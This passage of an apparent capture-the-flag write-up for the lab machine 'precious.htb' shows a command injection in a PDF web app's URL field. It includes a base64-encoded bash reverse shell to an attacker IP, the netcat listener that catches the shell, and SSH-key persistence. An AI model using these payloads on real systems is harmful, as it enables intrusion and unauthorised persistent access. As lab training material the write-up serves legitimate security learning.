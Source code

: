 ```bash
$ echo 'bash  -i >& /dev/tcp/10.10.14.100/4444 0>&1 ' | base64
YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTAwLzQ0NDQgMD4mMSAK
```

I launched a netcat listener and sent the payload to the server. 

```http
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 133
Origin: http://precious.htb
Connection: close
Referer: http://precious.htb/
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2F10.10.14.100%3Fname%3D%23%7B%27%2520%60echo -n YmFzaCAgLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMTAwLzQ0NDQgMD4mMSAK|base64 -d|bash%60%27%7D
```

I got a hit on the listener. 

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.100] from (UNKNOWN) [10.129.77.89] 50194
bash: cannot set terminal process group (661): Inappropriate ioctl for device
bash: no job control in this shell
ruby@precious:/var/www/pdfapp$
```

## Lateral Movement

I copied my SSH public key to the server.

```bash
ruby@precious:~$ mkdir .ssh
mkdir .ssh

ruby@precious:~$ chmod 700 .ssh
chmod 700 .ssh

ruby@precious:~$ cd .ssh
cd .ssh

ruby@precious:~/.ssh$ echo "PUBLIC_KEY" > authorized_keys
<T7wbwU6/l8Pa8l7ezQkX7Ko4Av2m8Es=" > authorized_keys

ruby@precious:~/.ssh$ chmod 600 authorized_keys
chmod 600 authorized_keys
```
